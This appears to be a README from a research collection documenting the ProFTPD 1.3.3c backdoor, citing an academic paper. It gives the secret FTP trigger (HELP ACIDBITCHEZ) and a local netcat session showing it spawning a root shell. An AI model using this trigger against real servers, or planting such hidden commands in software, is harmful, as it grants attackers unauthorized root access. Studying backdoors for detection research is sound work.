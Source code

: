 # ProFTPD 1.3.3c backdoor

- **Type**: hidden command
- **Affected versions**: 1.3.3c

## Backdoor

Running the FTP command `"HELP"` with the argument `"ACIDBITCHEZ"` spawns a root shell, in which
arbitrary commands can be executed.

## Triggering the backdoor

First, we need to start up the FTP server (e.g., with the _backdoored_ variant):

```console
$ ./backdoored/proftpd -n -c $PWD/proftpd.conf
```

In a separate terminal, we can trigger the backdoor:

```console
$ nc localhost 21  # connect to the FTP server
220 ProFTPD 1.3.3c Server (ProFTPD Default Installation) [::ffff:127.0.0.1]
HELP ACIDBITCHEZ
id
uid=0(root) gid=0(root) groups=0(root)
exit
502 Unknown command 'ACIDBITCHEZ'
QUIT
221 Goodbye.
```

## Reference

<https://doi.org/10.1145/2508859.2516716>
